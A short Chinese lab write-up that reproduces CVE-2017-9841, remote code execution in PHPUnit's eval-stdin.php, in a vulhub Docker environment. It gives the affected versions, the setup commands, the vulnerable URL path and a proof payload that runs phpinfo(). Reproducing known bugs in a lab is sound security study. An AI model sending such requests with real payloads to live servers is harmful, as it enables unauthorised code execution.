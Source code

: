 # 0x00 软件介绍
PHPUnit：一款php下软件测试常用的框架

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：PHPUnit 5.6.2

# 0x02 环境搭建
靶机环境：Ubuntu 18.04.5 LTS

cd ./vulhub-master/  
cd ./phpunit/  
cd ./CVE-2017-9841/  
docker-compose build  
docker-compose up -d

# 0x03 利用条件
使用composer安装受影响版本的PHPUnit

# 0x04 影响版本
4.8.19 <= PHPUnit <= 4.8.27  
5.0.10 <= PHPUnit <= 5.6.2

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

访问http://ybdt.best:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php  
直接在请求中添加
```
<?phpinfo();?>
```
如下图  
![image](./0.png)  
结果如下  
![image](./1.png)  

# 0x06 踩坑记录
坑1：  
在本地搭建环境，网络会非常非常慢，建议找一台云服务器

# 0x07 参考链接
无
